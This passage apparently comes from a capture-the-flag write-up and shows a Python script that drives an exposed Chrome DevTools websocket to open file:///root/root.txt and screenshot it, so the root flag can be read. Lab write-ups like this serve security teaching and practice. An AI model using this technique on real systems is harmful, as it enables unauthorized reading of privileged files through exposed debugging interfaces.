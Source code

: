 ```bash
command = json.dumps({
		"id": 5,
		"method": "Target.createTarget",
		"params": {
			"url": "file:///root/root.txt"
		}
})

ws.send(command)
target_id = json.loads(ws.recv())['result']['targetId']
print(f'Target id: {target_id}')

command = json.dumps({
		"id": 5,
		"method": "Target.attachToTarget",
		"params": {
			"targetId": target_id,
			"flatten": True
		}})
		
ws.send(command)
session_id = json.loads(ws.recv())['params']['sessionId']
print(f'Session id: {session_id}')

command = json.dumps({
		"id": 5,
		"sessionId": session_id,
		"method": "Page.captureScreenshot",
		"params": {
			"sessionId": session_id,
			"format": "png"
		}
	})
	
ws.send(command)
result = json.loads(ws.recv())

ws.send(command)
result = json.loads(ws.recv())

if 'result' in result and 'data' in result['result']:
	print("Success file reading")
	with open("root.png", "wb") as file:
		file.write(base64.b64decode(result['result']['data']))
else:
	print("error file reading")
	
ws.close()
```

After running the script, root.png is successfully created and we can read root.txt by displaying the image file:
